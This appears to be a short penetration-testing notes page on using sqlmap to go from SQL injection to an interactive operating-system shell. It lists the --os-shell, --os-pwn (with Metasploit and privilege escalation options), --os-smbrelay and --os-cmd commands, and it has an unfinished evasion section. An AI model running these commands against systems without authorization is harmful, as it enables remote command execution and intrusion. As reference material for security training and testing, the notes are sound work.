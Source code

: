 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - server-side-attack
  - sql-injection
  - blind-sql-injection
  - sqlmap
---
```

# 05 - Spawn Interactive Shell

> [!INFO]
> These requires **SELECT** and **FILE** privileges. Some needed a webroot directory except for `--os-smbrelay`.

```
$ sqlmap --os-shell [--web-root=/remote/path/to/webroot_directory]

$ sqlmap --os-pwn [--priv-esc] [--web-root=/remote/path/to/webroot_directory] [--msf-path=/path/to/metasploit_directory/]

$ sudo sqlmap --os-smbrelay [--msf-path=/path/to/metasploit_directory/]
```

```
--os-cmd=OSCMD      Execute an operating system command
```

#### Evasion

TODO: Check the `cloak.py` feature that needs evasion for sqlmap

```
$ cd 
```

---
## References

### Netwitness

- [Netwitness: Community Blog: From SQL Injection to Webshell](https://community.netwitness.com/t5/netwitness-community-blog/from-sql-injection-to-webshell/ba-p/521012)